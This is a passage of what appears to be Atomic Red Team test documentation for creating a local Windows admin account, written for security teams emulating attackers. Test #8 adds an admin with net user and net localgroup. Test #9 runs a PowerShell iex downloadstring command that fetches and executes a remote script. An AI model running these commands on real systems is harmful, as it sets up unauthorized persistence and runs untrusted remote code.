 ## Atomic Test #8 - Create a new Windows admin user
Creates a new admin user in a command prompt.

**Supported Platforms:** Windows


**auto_generated_guid:** fda74566-a604-4581-a4cc-fbbe21d66559





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Username of the user to create | string | T1136.001_Admin|
| password | Password of the user to create | string | T1136_pass|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user /add "#{username}" "#{password}"
net localgroup administrators "#{username}" /add
```

#### Cleanup Commands:
```cmd
net user /del "#{username}" >nul 2>&1
```





<br/>
<br/>

## Atomic Test #9 - Create a new Windows admin user via .NET
Creates a new admin user in a powershell session without using net.exe

**Supported Platforms:** Windows


**auto_generated_guid:** 2170d9b5-bacd-4819-a952-da76dae0815f






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/0xv1n/dotnetfun/9b3b0d11d1c156909c0b1823cff3004f80b89b1f/Persistence/CreateNewLocalAdmin_ART.ps1')
```






<br/>

